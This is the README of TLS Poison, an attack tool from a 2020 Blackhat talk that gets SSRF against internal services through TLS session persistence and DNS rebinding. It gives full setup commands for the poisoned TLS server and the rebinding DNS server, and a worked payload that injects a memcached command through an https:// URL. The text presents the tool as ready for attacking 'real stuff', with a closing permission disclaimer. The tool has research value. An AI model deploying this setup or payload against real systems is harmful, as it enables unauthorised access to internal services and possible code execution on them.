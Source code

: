 # TLS Poison

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:
![tes](diagram.svg)

## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot DNS instructions](https://certbot.eff.org/docs/using.html#dns-plugins) and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
If you want to reproduce my curl/memcached demo from the talk, you'll want to pass `-L` to curl to enable redirects, since command-line curl will use a fresh cache each time it's run.
Good luck, and make sure not to attack anything you don't have permission!

